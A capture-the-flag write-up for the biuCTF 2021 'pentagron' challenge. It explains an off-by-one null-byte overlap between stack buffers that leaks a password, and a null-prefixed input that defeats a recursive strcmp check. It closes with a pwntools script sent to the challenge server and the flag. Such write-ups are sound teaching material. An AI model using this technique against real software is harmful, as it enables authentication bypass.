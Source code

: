 # pentagron - biuCTF 2021

Let's connect to the server. We neet to enter a secret password to get get the flag. The server requests the password twice.
Now let's view the source code, the program gets the first input by:
```C
char secret[17];
char buf[16];
//load the password from the secret file!

char * line = NULL;
size_t len = 0;
ssize_t read;

FILE * fp = fopen("password.txt", "r");
fgets(secret_pass, 17, fp);
fclose(fp);
printf("Welcome to the Pentagon Network!\n");
printf("Please enter the secret passwword to continue:");
fgets(big_buf, 100, stdin);
// remove newline
big_buf[strcspn(big_buf, "\n")] = 0;
if(strlen(big_buf)>16){
    printf("Too many bytes entered!\n");
    exit(0);
}
sscanf(big_buf,"%16s",buf); 
strcpy(secret, secret_pass);
printf("You tried to log in with %s\n", buf);
```
The important thing to notice here is that we are limited to input of 16 characters, but the size of the buffer where our input is saved in is 16 charcters. Meaning that if we give input of 16 characters, the null byte will be at ```buf[17]```, which is ```secret[0]``` (```buf``` is located exactly after ```secret```). Since the user input is copied to ```buf``` before the password is copied to ```secret```, if we'll give a 16-char input, like ```AAAAAAAAAAAAAAAA```, the stack will look like this:
```
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+
| buf |   |   |   |   |   |   |   |   |   |   |   |   |   |   |   | secret |   |   |   |   |   |   |   |   |   |   |   |   |   |   |   |    |
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+
| A   | A | A | A | A | A | A | A | A | A | A | A | A | A | A | A |   X    | X | X | X | X | X | X | X | X | X | X | X | X | X | X | X | \0 |
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+
```
Where the x's are the secret password.
Let's try it:
```
Please enter the secret passwword to continue:AAAAAAAAAAAAAAAA
You tried to log in with AAAAAAAAAAAAAAAAsecreT_p4sssw0rd
lol what a noob. I'm nice so here's another try. Even though I don't think you'll succeed :)
```
So we know the password is secreT_p4sssw0rd! But just giving it as an input will not work because of the bug that overrides the input null byte.

Here is how the program gets the second input:
```C
sscanf(big_buf,"%16s",buf); 
strcpy(secret, secret_pass);
printf("You tried to log in with %s\n", buf);

if (super_secure_compare(buf, secret,16) == 0) {
    puts("Wow! how did u do it??\n");
    printf("here's the flag!\n");
    printFlag();
}
```
Now we write to buf after the password is already there. So if we give ```AAAAAAAAAAAAAAAA``` as an input the stack will look like:
````
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+
| buf |   |   |   |   |   |   |   |   |   |   |   |   |   |   |   | secret |   |   |   |   |   |   |   |   |   |   |   |   |   |   |   |    |
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+
| A   | A | A | A | A | A | A | A | A | A | A | A | A | A | A | A |   \0   | e | c | r | e | T | _ | p | 4 | s | s | s | w | 0 | r | d | \0 |
+-----+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+--------+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+----+

````
So if we give input that starts with ```\0```, ```strlen(buf, secret)``` will return 0. But the program comares them using ```super_secure_compare```:
```C
int super_secure_compare(char* str1, char* str2,int size) {
	//let's compare N times the strings and its substrings, just to be certain!
	if (size == 0)
		return 0;
	return strcmp(str1, str2) || super_secure_compare(str1 + 1, str2 + 1, size - 1);
}
```
Because of this, we need to make sure not only ```buf``` and ```secret``` points to the same string, but also ```buf+i``` and ```secret+i``` will points to the same string for every i from 0 to 15.
Giving ```\0ecreT_p4sssw0rd``` as an input will do the work.
Here is python script to get the flag:
```python
from pwn import *

r = remote('34.118.43.143', 3000)
r.recvuntil('continue:')
r.sendline('A'*16)
r.recvuntil('ord:')
r.sendline('\0ecreT_p4sssw0rd')
print(r.recvall())
```
And we got it!
```
biuCTF{hex4gons_4_de_w1n}
```
